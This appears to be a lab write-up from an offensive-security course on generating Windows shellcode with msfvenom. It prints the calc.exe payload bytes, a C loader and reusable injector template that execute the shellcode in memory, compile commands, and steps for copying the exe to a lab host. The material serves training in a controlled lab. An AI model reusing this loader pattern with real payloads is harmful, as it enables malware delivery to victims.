

# Task 5 Generate Shellcode

Task 5 Generate Shellcode

In this task, we continue working with shellcode and demonstrate how to generate and execute shellcode using public tools such as the Metasploit framework.

# Generate shellcode using Public Tools

Shellcode can be generated for a specific format with a particular programming language. This depends on you. For example, if your dropper, which is the main exe file, contains the shellcode that will be sent to a victim, and is written in C, then we need to generate a shellcode format that works in C.

The advantage of generating shellcode via public tools is that we don't need to craft a custom shellcode from scratch, and we don't even need to be an expert in assembly language. Most public C2 frameworks provide their own shellcode generator compatible with the C2 platform. Of course, this is so convenient for us, but the drawback is that most, or we can say all, generated shellcodes are well-known to AV vendors and can be easily detected.

We will use Msfvenom on the AttackBox to generate a shellcode that executes Windows files. We will be creating a shellcode that runs the **`calc.exe`** application.

Generate Shellcode to Execute calc.exe

```bash
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f c
No encoder specified, outputting raw payload
Payload size: 193 bytes
Final size of c file: 835 bytes
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
```

As a result, the Metasploit framework generates a shellcode that executes the Windows calculator (calc.exe). The Windows calculator is widely used as an example in the Malware development process to show a proof of concept. If the technique works, then a new instance of the Windows calculator pops up. This confirms that any executable shellcode works with the method used.

# Shellcode injection

Hackers inject shellcode into a running or new thread and process using various techniques. Shellcode injection techniques modify the program's execution flow to update registers and functions of the program to execute the attacker's own code.

Now let's continue using the generated shellcode and execute it on the operating system. The following is a C code containing our generated shellcode which will be injected into memory and will execute "calc.exe".

On the AttackBox, let's save the following in a file named **`calc.c`**:

```c
#include <windows.h>
char stager[] = {
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00" };
int main()
{
        DWORD oldProtect;
        VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
        int (*shellcode)() = (int(*)())(void*)stager;
        shellcode();
}
```

injector_template for windows

```bash
#include <windows.h>
char stager [] = {

#Delete this line & line below!! example below: paste below #this line
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50"

};
int main()
{
        DWORD oldProtect;
        VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
        int (*shellcode)() = (int(*)())(void*)stager;
        shellcode();
}
```

Now let's compile it as an exe file:

Compile our C program for Windows

```
user@AttackBox$ i686-w64-mingw32-gcc calc.c -o calc-MSF.exe
```

Once we have our exe file, let's transfer it to the Windows machine and execute it. To transfer the file you can use smbclient from your AttackBox to access the SMB share at \\10.10.180.247\Tools with the following commands (remember the password for the **`thm`** user is **`Password321`**):

Copy calc-MSC.exe to Windows Machine

```
user@AttackBox$ smbclient -U thm '//10.10.180.247/Tools'smb: \> put calc-MSF.exe
```

This should copy your file in **`C:\Tools\`** in the Windows machine.

While your machine's AV should be disabled, feel free to try and upload your payload to the THM Antivirus Check at **`http://10.10.180.247/`**.




The Metasploit framework has many other shellcode formats and types for all your needs. We strongly suggest experimenting more with it and expanding your knowledge by generating different shellcodes.

The previous example shows how to generate shellcode and execute it within a target machine. Of course, you can replicate the same steps to create different types of shellcode, for example, the Meterpreter shellcode.

# Generate Shellcode from EXE files

Shellcode can also be stored in **`.bin`** files, which is a raw data format. In this case, we can get the shellcode of it using the **`xxd -i`** command.

C2 Frameworks provide shellcode as a raw binary file **`.bin`**. If this is the case, we can use the Linux system command **`xxd`** to get the hex representation of the binary file. To do so, we execute the following command: **`xxd -i`**.

Let's create a raw binary file using msfvenom to get the shellcode:

Generate a Raw shellcode to Execute calc.exe

```
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f raw > /tmp/example.bin
No encoder specified, outputting raw payload
Payload size: 193 bytes

user@AttackBox$ file /tmp/example.bin/tmp/example.bin: data
```

```bash
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f raw > /tmp/example.bin
```

And run the **`xxd`** command on the created file:

Get the shellcode using the xxd command

```bash
xxd -i /tmp/example.bin
```

```
user@AttackBox$ xxd -i /tmp/example.bin
unsigned char _tmp_example_bin[] = {
  0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64,
  0x8b, 0x50, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28,
  0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c,
  0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf2, 0x52, 0x57, 0x8b, 0x52,
  0x10, 0x8b, 0x4a, 0x3c, 0x8b, 0x4c, 0x11, 0x78, 0xe3, 0x48, 0x01, 0xd1,
  0x51, 0x8b, 0x59, 0x20, 0x01, 0xd3, 0x8b, 0x49, 0x18, 0xe3, 0x3a, 0x49,
  0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31, 0xff, 0xac, 0xc1, 0xcf, 0x0d, 0x01,
  0xc7, 0x38, 0xe0, 0x75, 0xf6, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75,
  0xe4, 0x58, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b,
  0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24,
  0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x5f, 0x5f, 0x5a,
  0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x6a, 0x01, 0x8d, 0x85, 0xb2, 0x00, 0x00,
  0x00, 0x50, 0x68, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5,
  0xa2, 0x56, 0x68, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x3c, 0x06, 0x7c,
  0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a,
  0x00, 0x53, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65,
  0x00
};
unsigned int _tmp_example_bin_len = 193;
```

If we compare the output with the previous shellcode created with Metasploit, it matches.

Answer the questions below

Apply what we discussed in this task and get ready for the next topic!

Complete
